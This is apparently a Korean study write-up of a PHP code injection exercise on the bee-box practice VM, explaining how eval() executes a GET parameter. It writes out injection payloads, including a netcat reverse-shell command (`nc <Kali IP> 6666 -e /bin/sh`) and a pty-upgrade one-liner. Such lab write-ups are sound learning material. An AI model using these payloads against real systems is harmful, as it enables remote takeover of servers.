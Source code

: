 ## PHP Code Injection

![chrome_UxFxP15OFQ](https://user-images.githubusercontent.com/79683414/134443409-9a005f07-5992-4a47-8042-1e594ae81687.png)

![chrome_nl8frdT2JG](https://user-images.githubusercontent.com/79683414/134443702-d254f75f-b673-464b-a420-28c577caf0ce.png)

OS Command Injection 과 같이, PHP 코드를 인젝션 하는 문제이다.

__message__ 를 클릭히니 "test"라는 문자열이 출력된다.

URL을 보니 GET 방식인 것을 알 수 있다.

message 변수에 test 대신 다른 문자열을 입력해서 공격하는 문제인듯 하다.

<br/>

<br/>

<br/>

### low

처음에 <script> 태그를 삽입해 보았는데 아무 반응이 없었다.

다음으로 문제 이름에 맞게 php 코드를 삽입해 보았다.

php injection 이 가능한지 테스트 해보기 위해  `';'`를 이용했다.

<br/>

<br/>

<br/>

![chrome_DBCgDN6MhD](https://user-images.githubusercontent.com/79683414/134445637-2231bcd6-b69d-4cd5-a6ff-01daf8edfa0d.png)

pay : _msg;system("whoami)_

php 코드가 성공적으로 삽입되었다.

이전 문제들에서는 불가능 했던 php 코드 인젝션이 가능한 이유를 찾기 위해 코드를 살펴보았다.

<br/>

<br/>

<br/>

![Code_ZU4xvxhvCv](https://user-images.githubusercontent.com/79683414/134446502-f465b87d-0063-4990-b0cd-3c6fd61e0770.png)

__@eval__ 함수는 매개변수(String) 을 PHP 코드로 취급하겠다는 함수이다.

따라서 위에서 조작한 message 의 내용이 그대로 PHP 코드가 되는 것...

"이걸로 쉘 획득하세요" 라고 말해주는 것 같았다.

> PHP-eval() : https://www.php.net/manual/en/function.eval.php

<br/>

<br/>

<br/>

OS Command Injection 에서 했던 것 처럼,

칼리에서 포트를 리스닝으로 열어 놓고 bee-box에서 nc 명령을 입력했다.

- Kali : `nc -lvp 6666`

- bee : `msf;system("nc <Kali IP> 6666 -e /bin/sh")`

![chrome_8TOzxhRz8z](https://user-images.githubusercontent.com/79683414/134449912-7156715f-00a0-43f6-a824-d522470e6905.png)
![vmware_7POsRRx4rB](https://user-images.githubusercontent.com/79683414/134449957-57377247-7e7a-4e81-9e92-27351c19dd40.png)

<br/>

<br/>

<br/>

성공적으로 리버스 쉘을 획득했다.

원격으로 쉘을 획득했을 때 프롬프트가 보이지 않아서 불편하기도 하고,

vi 도 사용할 수 없다.(가능은 하지만 정상적인 출력을 하지 않아서 불편;;)

여기서 사용하는 재밌는 개념이 pseudo-terminal 이다.

<br/>

`python -c 'import pty;pty.spwan("/bin/bash")'`

![vmware_YqFUZVk0yH](https://user-images.githubusercontent.com/79683414/134450518-a092c9c9-ce0b-4a36-a64f-87e6ebc2f32f.png)

<br/>

<br/>

<br/>

~~tty, pty 는 처음 접하는 개념이라 정확하지 않지만...~~

'Teletypewrite', 일반적으로 터미널이라 부르는 것들이다.

리눅스에서 사용하는 터미널의 종류는 tty, ttys, pts, pty으로 `/dev` 에 속해있다.

자신의 터미널을 확인하려면 `tty` 를 이용하면 된다.

- tty : 일반 CLI 콘솔
- ttys : 시리얼 tty
- pts : 기본 xwindows를 위한 가상 콘솔(xwindow 는 GUI 환경을 뜻함)

> __Pseudo-Terminals__
>
> https://www.gnu.org/software/libc/manual/html_node/Pseudo_002dTerminals.html

<br/>

<br/>

<br/>

위의 명령어의 정확한 동작방식은 아직 이해되진 않지만,

pty를 새로 생성해서 python이 프롬프트를 띄워주는? 방식으로 예상 중 이다....

